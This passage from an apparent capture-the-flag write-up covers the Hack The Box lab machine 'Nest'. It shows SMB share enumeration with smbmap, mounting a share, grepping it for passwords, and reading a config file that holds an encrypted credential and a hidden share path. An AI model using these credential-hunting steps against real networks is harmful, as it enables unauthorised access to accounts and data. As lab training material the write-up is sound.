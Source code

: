 Again, we can enumerate the shares, but this time, with TempUser's permissions.

`smbmap -u 'TempUser' -p 'welcome2019' -H 10.10.10.178 -R`

After looking through the results, it seems like there's more to look through this time, especially in the Data share.

Let's mount the share, so that we can grep through its contents. (CIFS is a dialect of SMB.)

```
root@kali:/mnt# mount -t cifs -o username=TempUser //10.10.10.178/Data /mnt/Data
Password for TempUser@//10.10.10.178/Data:  ***********
```

After mounting the drive, we can grep for credentials.

```
root@kali:/mnt/Data# grep -Eir 'password|passwd'
IT/Configs/RU Scanner/RU_config.xml:  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
Shared/Templates/HR/Welcome Email.txt:Password: welcome2019
```

There's a credential in **RU_cofig.xml**. Let's look at the file.

```
root@kali:/mnt/Data/IT/Configs# cat 'RU Scanner'/RU_config.xml
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
```

It is a XML config file for something called RU Scanner. The password is for a user **c.smith**.

We can find out more about c.smith with some simple grepping.

```
root@kali:/mnt/Data# grep -ir 'c.smith'
IT/Configs/NotepadPlusPlus/config.xml:        <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
IT/Configs/RU Scanner/RU_config.xml:  <Username>c.smith</Username>
```

The config.xml for Notepad++ shows us a path to his todo list.

Let's open the file to take a closer look. 

```
root@kali:/mnt/Data/IT/Configs# cat NotepadPlusPlus/config.xml
<SNIP>
<History nbMaxFile="15" inSubMenu="no" customLength="-1">
    <File filename="C:\windows\System32\drivers\etc\hosts" />
    <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
    <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
</History>
</SNIP>
```
The file history offers useful information. In particular, it offers us visibility into the `Secure$` share. We now know that there is a `\IT\Carl` path within it.
